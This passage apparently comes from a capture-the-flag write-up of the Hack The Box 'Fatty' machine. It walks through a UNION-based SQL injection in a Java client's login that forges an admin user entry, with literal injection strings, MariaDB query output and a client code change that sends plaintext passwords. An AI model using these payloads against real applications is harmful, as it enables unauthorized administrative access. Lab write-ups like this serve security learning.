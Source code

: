 Then, the following value is produced by `newUser.getPassword()` function.

```java
sha256("qtc"+"clarabibi"+"clarabibimakeseverythingsecure") = 5a67ea356b858a2318017f948ba505fd867ae151d6623ec32be86e9c688bf046
```

The user-supplied password hash `user.getPassword()` is calculated as follows.

```java
sha256("' or '1'='1" + "' or '1'='1" + "clarabibimakeseverythingsecure") = cc421e01342afabdd4857e7a1db61d43010951c7d5269e075a029f5d192ee1c8
```

Although the hash sent to the server by the client doesn't match the one in the database, and the password comparison fails, the SQL injection is still possible using `UNION` queries. Let's consider the following example.

```sql
MariaDB [userdb]> select * from users where username='john';
+----------+-------------+
| username | password    |
+----------+-------------+
| john     | password123 |
+----------+-------------+
```

It is possible to create fake entries using the `SELECT` operator. Let's input an invalid username to create a new user entry.

```sql
MariaDB [userdb]> select * from users where username='test' union select 'admin', 'welcome123';
+----------+-------------+
| username | password    |
+----------+-------------+
| admin    | welcome123  |
+----------+-------------+
```

Similarly, the injection in the `username` field can be leveraged to create a fake user entry.

```java
test' UNION SELECT 1,'invaliduser','invalid@a.b','invalidpass','admin
```

This way, the password, and the assigned role can be controlled. The following snippet of code sends the plaintext password entered in the form. Let's modify the code in `htb/fatty/shared/resources/User.java` to submit the password as it is from the client application.

```java
public User(int uid, String username, String password, String email, Role role) {
    this.uid = uid;
    this.username = username;
    this.password = password;
    this.email = email;
    this.role = role;
}
public void setPassword(String password) {
    this.password = password;
  }
```
